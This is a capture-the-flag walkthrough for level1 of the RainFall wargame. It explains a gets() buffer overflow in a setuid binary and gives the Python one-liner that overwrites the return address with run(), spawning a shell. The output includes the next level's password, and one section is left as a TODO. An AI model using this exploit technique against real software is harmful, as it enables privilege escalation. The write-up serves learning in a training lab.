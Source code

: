 # Level1

## Walkthrough

We list the files in the current home directory.

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

We transfer the `level1` executable using **SCP** and decompile it with **Dogbolt**.

[Decompiled executable](https://dogbolt.org/?id=621e2f06-c90f-42e1-b556-a4a225fc4b1b)

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[64]; // [esp+10h] [ebp-40h] BYREF

  return (int)gets(s);
}
```

Looking at the `main()` function, we can quickly understand that we will have to exploit the executable with a **buffer overflow**. The variable `s` is a buffer of 64 bytes and `gets()` stores user input into it, but no validation is done in order to prevent the user from entering more than 64 characters.

There is also a `run()` function which is declared but never called, and it calls `system()` with `/bin/sh` as argument.

```c
int run()
{
  fwrite("Good... Wait what?\n", 1u, 0x13u, stdout);
  return system("/bin/sh");
}
```

One of the techniques used during a buffer overflow exploit is to replace the return address with a new one, either a declared function or one we would declared in the buffer.

We use **GDB** in order to get the address of `run()`.

```bash
level1@RainFall:~$ gdb level1
# [...]
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

We run a **Python** script onto the command line to print 64 characters and append them with the address **0x08048444**, incrementing by 1 character until `run()` is called.  
Because our system is **little-endian**, we have to pass the address from the least-significant byte to the most-significant one: **08048444** becomes **44840408**.

```bash
level1@RainFall:~$ python -c "print('a' * 60 + '\x44\x84\x04\x08')" | ./level1
level1@RainFall:~$ python -c "print('a' * 61 + '\x44\x84\x04\x08')" | ./level1
# [...]
level1@RainFall:~$ python -c "print('a' * 72 + '\x44\x84\x04\x08')" | ./level1
Illegal instruction (core dumped)
level1@RainFall:~$ python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

TODO: write this part.

```bash
level1@RainFall:~$ (python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Resources

- [An Introduction to Buffer Overflow Vulnerability](https://freedium.cfd/https://medium.com/techloop/understanding-buffer-overflow-vulnerability-85ac22ec8cd3#:%7E:text=A%20Beginner%E2%80%99s%20Guide%20to%20Buffer%20Overflow%20Vulnerability%201,Overflow%20...%207%20Security%20Measures%20...%208%20References)
- [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- [Buffer Overflows Part 1 - Jumping to Local Functions](https://www.youtube.com/watch?v=svgK9fNGTfg)
- [Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
